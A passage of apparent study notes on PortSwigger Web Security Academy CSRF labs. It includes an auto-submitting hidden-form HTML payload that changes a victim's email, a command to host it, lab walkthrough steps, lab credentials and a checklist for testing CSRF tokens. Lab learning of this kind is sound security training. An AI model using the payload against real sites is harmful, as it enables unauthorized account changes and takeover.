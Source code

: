 - HTML payload (form action="https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acc61fc61e3d7e1e800e3f9d001500fa.web-security-academy.net/my-account/change-email" method="POST" id="csrf-form" target="csrf-iframe">
        <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

## **4. CSRF where token is not tied to user session**
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
2. Make a note of the value of the CSRF token, then drop the request.
3. Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
4. Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
5. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
6. Change the email address in your exploit so that it doesn't match your own.
7. Store the exploit, then click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Credentials - wiener:peter, carlos:montoya

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: csrf token is not tied to user session

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if CSRF token is tied to user session (try with incognito mode)

- try to change csrf token in order to see if it is accepted or not(if it is checked in the backend)
	if is not -> check if csrf token is tied to the user's session cookie:
		- use csrf token from another account using incognito mode :)
			if is accepted --> the csrf token is not tied to the user's session 
